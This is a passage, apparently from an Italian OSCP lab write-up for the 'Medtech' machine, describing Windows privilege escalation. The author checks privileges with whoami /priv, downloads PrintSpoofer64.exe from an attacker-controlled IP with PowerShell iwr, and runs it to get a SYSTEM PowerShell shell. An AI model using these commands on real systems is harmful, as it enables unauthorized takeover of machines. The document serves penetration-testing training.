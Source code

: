 Lancio il comando whoami /priv:

```bash
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Dato che è settato il privilegio _SeImpersonatePrivilege_, decido di provare ad utilizzare _PrintSpoofer_ per provare a sfruttarlo. Scarico _PrintSpoofer_ sulla mia macchina e lo sposto sulla macchina target attraverso questo comando:

```bash
powershell

iwr -uri http://192.168.45.212:9999/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```

Successivamente eseguo _PrintSpoofer_:

```bash
.\PrintSpoofer64.exe -i -c powershell.exe
```

Divento così amministratore di sistema e ottengo la prima proof.txt:

![](/OSCP/Immagini_OSCP/Medtech/192.168.171.121_proof.png)

